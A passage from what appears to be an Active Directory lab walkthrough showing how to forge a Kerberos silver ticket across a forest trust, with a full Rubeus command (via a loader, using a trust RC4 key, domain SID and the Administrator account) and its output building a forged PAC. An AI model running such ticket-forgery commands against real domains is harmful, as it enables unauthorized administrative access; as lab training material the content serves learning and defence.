 - **Forge a Silver Ticket (without EA SID History) using the Trust Key from the Forest 1 DC for Access to the Shared Resources of the Forest 2 DC**

**Note that we are not injecting any SID History here as it would be filtered out.**

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:8b47def37766600c86a9ce817a3fadf4 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /nowrap`:
```
[SNIP]

[*] Action: Build TGS📌

[*] Trying to query LDAP using LDAPS for user information on domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(samaccountname=Administrator)'
[*] Retrieving group and domain policy information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-719815819-3726368948-3917688648-513)(name={31B2F340-016D-11D2-945F-00C04FB984F9}))'
[*] Attempting to mount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[X] Error mounting \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL error code ERROR_ACCESS_DENIED (5)
[!] Warning: Unable to get domain policy information, skipping PasswordCanChange and PasswordMustChange PAC fields.
[*] Attempting to mount: \\us.dollarcorp.moneycorp.local\SYSVOL
[X] Error mounting \\us.dollarcorp.moneycorp.local\SYSVOL error code ERROR_BAD_NET_NAME (67)
[!] Warning: Unable to get domain policy information, skipping PasswordCanChange and PasswordMustChange PAC fields.
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'
[*] Retrieving group and domain policy information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'DC=dollarcorp,DC=moneycorp,DC=local' for '(|(distinguishedname=CN=Group Policy Creator Owners,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Domain Admins,CN=Users,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(distinguishedname=CN=Administrators,CN=Builtin,DC=us,DC=dollarcorp,DC=moneycorp,DC=local)(objectsid=S-1-5-21-1028785420-4100948154-1806204659-513)(name={31B2F340-016D-11D2-945F-00C04FB984F9}))'
[*] Attempting to mount: \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL
[X] Error mounting \\dcorp-dc.dollarcorp.moneycorp.local\SYSVOL error code ERROR_ACCESS_DENIED (5)
[!] Warning: Unable to get domain policy information, skipping PasswordCanChange and PasswordMustChange PAC fields.
[*] Attempting to mount: \\us.dollarcorp.moneycorp.local\SYSVOL
[X] Error mounting \\us.dollarcorp.moneycorp.local\SYSVOL error code ERROR_BAD_NET_NAME (67)
[!] Warning: Unable to get domain policy information, skipping PasswordCanChange and PasswordMustChange PAC fields.
[*] Retrieving netbios name information over LDAP from domain controller dcorp-dc.dollarcorp.moneycorp.local
[*] Searching path 'CN=Configuration,DC=moneycorp,DC=local' for '(&(netbiosname=*)(dnsroot=dollarcorp.moneycorp.local))'

[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL🏛️ (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648📌
[*] UserId         : 500
[*] Groups         : 544,512,520,513
[*] ServiceKey     : 8B47DEF37766600C86A9CE817A3FADF4
```